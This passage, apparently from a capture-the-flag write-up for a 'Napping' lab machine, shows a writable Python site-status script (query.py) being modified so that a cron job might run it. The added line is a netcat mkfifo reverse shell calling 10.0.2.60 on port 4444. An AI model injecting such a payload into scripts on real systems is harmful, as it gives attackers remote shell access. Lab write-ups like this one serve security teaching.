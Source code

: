 I noticed that I can edit the file query.py as I have the permission as shown through id command →

```bash
daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```
{: .nolineno}
{: .nolineno}

In this file I added the reverse shell command as I notice this file contains commands related to date and time so may be it is executed through cron so I modified it →

```bash
daniel@napping:/home/adrian$ nano query.py 
daniel@napping:/home/adrian$ cat query.py 
from datetime import datetime
import requests
import os

os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.2.60 4444 >/tmp/f')
now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()

daniel@napping:/home/adrian$
```
{: .nolineno}
{: .nolineno}
